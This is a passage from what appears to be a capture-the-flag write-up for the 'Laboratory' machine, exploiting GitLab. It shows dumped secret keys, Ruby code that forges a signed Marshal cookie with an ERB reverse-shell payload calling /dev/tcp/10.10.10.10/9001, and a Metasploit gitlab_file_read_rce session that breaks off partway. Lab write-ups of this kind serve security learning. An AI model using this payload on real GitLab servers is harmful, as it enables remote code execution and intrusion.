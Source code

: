 ```terminal
                                                                                                                                                              ---                                                                                                                                                           production:                                                                                                                                                     db_key_base: 077fa60a5fd899c76ffaa4ae1aefec7f8922184de9dd8e5b4713cd7212fc5033d37d6791f6aa08597bdc4a3323c3e731ec26a71b22484d8789d73f963660985e               
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3           
  otp_key_base: 02a2096ad4f992052a02df4a94302750aa7b5df8fcf278244c9a9ac355a88d2b54db651ed8e2af1e362f89e5255881d6f8e1a0a8ce0a89033060f4cf9fdb7997              
  openid_connect_signing_key: |                                                                                                                               
    -----BEGIN RSA PRIVATE KEY-----                                                                                                                           
    MIIJKQIBAAKCAgEApiWCHWfCAYyLCFODPAYwujxetCqLM4e233rLg/33A7VQGTfd                                                                              
[snip]
```

Now we start `gitlab-rail console` and run the following code

```rb
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1'` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

>Change the IP address and port to the one you have.

![](7.png)

We got the cookie, now we setup a listener and send the cookie with curl.

![](8.png)

We got a shell.

### Easy and headache free way using metasploit

The module `exploit/multi/http/gitlab_file_read_rce` can be used to get the shell.

```terminal
[msf](Jobs:0 Agents:0) exploit(multi/http/gitlab_file_read_rce) >> set rhosts 10.10.10.216                                                                    
rhosts => 10.10.10.216                                                                                                                                        
[msf](Jobs:0 Agents:0) exploit(multi/http/gitlab_file_read_rce) >> set vhost git.laboratory.htb                                                               
vhost => git.laboratory.htb                                                                                                                                   
[msf](Jobs:0 Agents:0) exploit(multi/http/gitlab_file_read_rce) >> set username sirius                                                                        
username => sirius                                                                                                                                            
[msf](Jobs:0 Agents:0) exploit(multi/http/gitlab_file_read_rce) >> set password password123                                                                   
password => password123                                                                                                                                       
[msf](Jobs:0 Agents:0) exploit(multi/http/gitlab_file_read_rce) >> set lhost tun0          
```
